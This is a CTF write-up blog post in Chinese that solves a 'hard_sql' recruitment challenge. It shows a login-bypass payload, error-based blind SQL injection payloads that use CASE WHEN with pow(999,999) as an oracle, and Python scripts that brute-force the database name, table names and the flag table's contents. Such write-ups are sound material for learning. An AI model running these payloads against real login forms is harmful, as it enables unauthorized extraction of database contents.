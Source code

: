 ```yaml
---
layout: post 
title: "V1lu0实验室招新hard_sql writeup"
date: 2020-06-23
author: su29029
tags: Web
---
```


## 0x00 前置知识

1.sql盲注。    

2.sql语法中ascii()函数，substr()等字符串处理函数，case when分支结构等控制语句。   

3.python脚本编写能力。    

## 0x01 解题

首先拿到题目，给出了一个登录框，并提示后台做了过滤。这里依然先尝试万能密码。```admin' or 1=1 #```发现登录成功，但是只有Login Success，没有其他任何信息。```admin' #``` 发现提示something wrong.

由于只提示有错误而不说明错误内容，这里无法使用联合查询或报错注入。故考虑盲注。   

给出第一步payload：

```
?user=1' and case (ascii(substr(database(),1,1))) when '104' then pow(999,999) end %23pass=123
```

解释一下，substr(string, index, length)函数用于截取string字符串从index位开始长度为length的子串，ascii()函数用于将字符转换为ascii码，case (statement) when '..' then ..... when '..' then ..... end类似switch的用法，判断某个statement的值，如果满足下面when的某个条件就执行then后的语句。而pow(999,999)执行一定会报错（数据溢出）。故如果```ascii(substr(database(),1,1))```的值等于104的话，数据库会报错，回显something wrong.如果值不等于，则不执行，回显wrong username password.这样我们通过判断database()的每一位是否等于某个ascii码转换后的值，就可以得出数据库名。    

```python
import requests

for i in range(1, 10):
    for j in range(32, 127):
        payload = "?user=1' and case (ascii(substr(database(), {},1))) when '{}' then pow(999,999) end %23&pass=123".format(i, j)
        url = "http://v8.su29029.xyz:10010/index.php" + payload
        r = requests.get(url)
        # print(j, end = " ")
        if (r.text.find('Something wrong') != -1):
            print(chr(j))
```

最终得到数据库名```hard_sql```.   

下一步爆表名。第二步payload：   

```
?user=1' and case (ascii(substr((Select group_concat(table_name) from Information_schema.tables where table_schema="hard_sql"),1,1))) when '102' then pow(999,999) end %23pass=123
```

通过group_concat函数查询表名。   

```python
import requests

for i in range(1, 15):
    for j in range(32, 127):
        payload = "?user=1' and case (ascii(substr((Select group_concat(table_name) from Information_schema.tables where table_schema=\"hard_sql\"), {},1))) when '{}' then pow(999,999) end %23&pass=123".format(i, j)
        url = "http://v8.su29029.xyz:10010/index.php" + payload
        r = requests.get(url)
        # print(j, end = " ")
        if (r.text.find('Something wrong') != -1):
            print(chr(j))
```

最终得到所有数据表名```flag,users```.   

最后一步获取列名，但是发现column被过滤且无法绕过，故考虑无列名注入。   

先判断列数，仍然使用上述payload来判断。   

```
?user=1' and case (ascii(substr((Select `1` from (Select 1 union Select * from hard_sql.flag) as a limit 1,1), 1,1))) when '1000' then pow(999,999) end %23&pass=123
```

发现提示something wrong.说明列数错误(因为ascii码值不可能等于1000，但是报错了说明是前面语句出现问题，在没有语法错误的情况下只可能是列数错误)，故增加列数，最后发现一共有5列。因为使用如下payload时没有提示something wrong 而是 wrong username password.   

```
?user=1' and case (ascii(substr((Select `1` from (Select 1,2,3,4,5 union Select * from hard_sql.flag) as a limit 1,1), 1,1))) when '1000' then pow(999,999) end %23&pass=123
```

爆出该表的所有列的所有内容(一行一行来)：   

```python
import requests
for m in range(1, 6):
    for i in range(1, 100):
        index = 0
        for j in range(127, 32, -1):
            payload = "?user=1' and case (ascii(substr((Select `{}` from (Select 1,2,3,4,5 union Select * from hard_sql.flag) as a limit 1,1), {},1))) when '{}' then pow(999,999) end %23&pass=123".format(m, i, j)
            url = "http://v8.su29029.xyz:10010/index.php" + payload
            r = requests.get(url)
            if (r.text.find('Something wrong') != -1):
                print(chr(j))
                index = 1
                break
        if (index == 0):
            break
    print("-----------------")
```

最终结果：   

```
flag{{{{{{{
```

```
mini~~~
```

```
flag{this_is_not_a_flag}
```

```
ffllaagg{{}}
```

```
flag{sql_1s_s0_c00000001lllll!!!!!!}
```
最后一个是真正的flag。   
成功获得flag。   